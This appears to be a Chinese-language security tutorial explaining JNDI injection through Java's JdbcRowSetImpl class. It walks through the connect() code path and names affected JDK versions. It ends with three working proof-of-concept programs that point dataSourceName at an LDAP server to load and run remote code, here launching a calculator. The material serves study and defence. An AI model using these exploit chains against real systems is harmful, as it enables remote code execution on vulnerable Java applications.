

很讨厌，不知道网上那么多帖子都是从哪抄来的，一提到`JdbcRowSetImpl`都是在说这个在fastJson中的利用，但是这个类的攻击明明就是自成体系的，他本质上就是JNDI的攻击利用啊，而且这个类的全路径是`com.sun.rowset.JdbcRowSetImpl`，这和fastJson有什么关系？？？

`com.sun.rowset.JdbcRowSetImpl` 本质上是 Java 标准库中的一个类，用于基于 JDBC 的数据库交互。其设计允许通过配置数据源（如 JNDI URI）来访问远程资源。只是恰好fastJson的攻击也能使用`com.sun.rowset.JdbcRowSetImpl`来触发而已。

## 环境准备

JDK版本<=6u211、7u201、8u191即可

## 代码分析

在`com.sun.rowset.JdbcRowSetImpl`中有一个关键方法叫做`connect()`，代码如下：

### JdbcRowSetImpl#connect

```java
private Connection connect() throws SQLException {
    // 当数据库连接不为空时，直接返回数据库连接
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        // 当数据库连接为空，并且dataSourceName不为空
        // dataSourceName 的设计初衷是用来指定数据库的数据源名称，通常是一个合法的 JNDI 数据源名称，用于连接数据库。它在 JdbcRowSetImpl 中的主要作用是配置数据源，通过 JNDI 查找数据库连接配置。
        try {
            // 这里的InitialContext就是JNDI的那个上下文对象
            InitialContext var1 = new InitialContext();
            // 这里就回到JNDI相关的知识点了，通过lookup来获取JNDI对象的配置项
            // 但如果this.getDataSourceName()是一个恶意构造的ldap://ip:port/evilClass
            // 那么就会导致lookup过来的其实是一个恶意类，从而导致恶意代码执行
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```

非常清晰了已经，就是如果这个`dataSourceName`参数是我们可控的，那么我们直接通过调用`connect()`就能达到加载恶意代码的效果。

嗯......其实我应该这么说，关键代码只有这一处地方。主要就是看还有哪些地方会触发这个`connect()`方法。

通过IDEA在`JdbcRowSetImpl`类中进行搜索，可以发现这么三个地方调用了`connect`方法



### getDatabaseMetaData

代码如下：

```java
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    // 非常干净的调用了connect()方法
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

如果我们能提前控制`dataSourceName`，然后调用这个`getDatabaseMetaData`方法，即可恶意代码执行。

### setAutoCommit

代码如下：

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        // 如果当前链接为空就会调用connect()方法
        // 所以在这里你能看出来，传什么值都不要紧
        // 这里都是可以触发connect()方法的，当然前提是conn为null
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }

}
```

很多fastJson的很多利用方法，就是使用的触发setAutoCommit方法来执行恶意代码。

### prepare

这个方法有点特别，这是一个用`protected`关键字修饰的方法，这意味着我们没办法直接调用到这个方法，只能通过反射或者间接的方法调用，其实这里刚好有一个方法调用了prepare方法，就是execute()方法，代码如下：

```java
public void execute() throws SQLException {
    // 一上来就调用了我们想要的方法
    this.prepare();
    this.setProperties(this.ps);
    this.decodeParams(this.getParams(), this.ps);
    this.rs = this.ps.executeQuery();
    this.notifyRowSetChanged();
}
```

amazing！是不是这几个类都非常简单！调用过程其实都非常简单。

## 漏洞利用 - POC

这里推荐大家可以先看我分析过的一个`JNDI-Injection-Exploit`工具，这个东西是一个JNDI注入攻击利用的一个小工具，参考我的这篇文章：[JNDIExploit攻击工具分析](../JNDI-Exploit分析/main.md)，在本地启动启动这个工具，然后即可运行下边的POC。

你要记得对于`JdbcRowSetImpl`的利用，重点是需要`dataSourceName`参数是可控的。

### getDatabaseMetaData

```java
import com.sun.rowset.JdbcRowSetImpl;

public class Demo {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rsi = new JdbcRowSetImpl();
        rsi.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");
        // 执行getDatabaseMetaData方法即可调用到connect()方法，从而加载恶意代码
        rsi.getDatabaseMetaData();
    }
}
```


### setAutoCommit

```java
import com.sun.rowset.JdbcRowSetImpl;

public class Demo1 {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rsi = new JdbcRowSetImpl();
        rsi.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");
        // 也可以写成tpl.setAutoCommit(false);
        // 传什么值不要紧，true或者是false都是可以触发connect()方法
        rsi.setAutoCommit(false);
    }
}

```


### poc3 - prepare

```java
import com.sun.rowset.JdbcRowSetImpl;

public class Demo2 {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rsi = new JdbcRowSetImpl();
        rsi.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");
        rsi.execute();
    }
}
```

